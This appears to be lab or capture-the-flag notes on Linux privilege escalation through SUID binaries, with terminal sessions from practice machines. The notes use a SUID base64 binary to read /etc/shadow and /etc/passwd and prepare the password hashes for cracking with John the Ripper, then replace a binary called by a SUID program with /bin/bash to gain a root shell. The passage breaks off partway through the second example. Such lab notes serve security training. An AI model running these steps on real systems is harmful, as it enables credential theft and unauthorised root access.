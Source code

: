 find all files with SUID bit set
```
karen@ip-10-10-220-105:/$ find / -type f -perm -04000 -ls 2>/dev/null

 1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
```
we can see binary `/usr/bin/base64` which we can use as owner ie as root,  so that means we can encode and decode the /etc/shadow file as well, which can give us hashes of users, becuase when we decode we can see the content 
```
karen@ip-10-10-220-105:/$ base64 /etc/shadow | base64 --decode

karen@ip-10-10-220-105:/$ base64 /etc/passwd | base64 --decode
```
Next we need to "combine" these two together into a file that we can leverage John to crack the hashes, we can use the `unshadow tool` to do this, giving the two files as input
```
unshadow passwd.txt shadow.txt > crackme.txt
```

**Example 2**

(Shared Object Injection) we examine SUID binary named 'welcome' using strings and found it uses another binary named 'greetings', this means we can put whatever we want in greetings and it will be executed with `root` privileges,  we will simply copy `/bin/bash` into greetings

```
student@attackdefense:/$ find /home -user root

/home
/home/student/.bashrc 
/home/student/welcome
/home/student/greetings
```
we can check using `file` type and using command `strings`
```
student@attackdefense:~$ `file welcome`
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped

student@attackdefense:~$ `strings welcome`
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main   
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
```
we observe its calling on `greetings` binary this means we can put whatever we want in greetings and it will be executed with `root` privileges
we will simply copy `/bin/bash` or basically rename it as greetings binary, we see that after this if we run greetings binary we get bash with student user however if we run welcome binary it gives us bash with root user because it is running as root and its utlising our greetings binary
```
student@attackdefense:~$ cat greetings
cat: greetings: Permission denied
student@attackdefense:~$ rm greetings
rm: remove write-protected regular file 'greetings'? yes
```